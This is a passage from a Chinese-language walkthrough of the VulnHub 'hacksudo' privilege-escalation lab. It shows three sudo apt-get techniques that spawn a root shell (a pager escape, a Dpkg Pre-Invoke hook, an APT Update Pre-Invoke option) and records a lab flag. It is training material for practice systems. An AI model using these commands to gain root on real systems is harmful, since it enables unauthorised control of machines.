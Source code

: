![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\16.jpg)

虽然给出是`apt-get`提权，但还是使用`find`搜索，然后`sudo -l`

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\17.jpg)

对于这个提权方式，网页中给了链接，可以在这个链接中学习如何使用，但是国外访问，太卡，使用`gtfobins.github.io`网站学习，三种方式

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\18.jpg)

###### 方式一

```shell
sudo apt-get changelog apt
!/bin/sh
```

进入后，直接键盘输入`!/bin/sh`即可使用`root`唤起一个shell

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\19.jpg)

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\20.jpg)

###### 方式二

```shell
TF=$(mktemp)
echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
sudo apt-get install -c $TF sl
```

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\21.jpg)

###### 方式三

```shell
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

获取`flag`为`viluhacker`

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\22.jpg)

返回输入`flag`，提示完成

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\23.jpg)

然后点击就是下一关



## arp提权

使用提供的用户名和密码登录，估计后面都是使用`sudo -l`查看，然后提权

![](D:\stu\vulnhub\hacksudo靶场\pic-lpe\24.jpg)
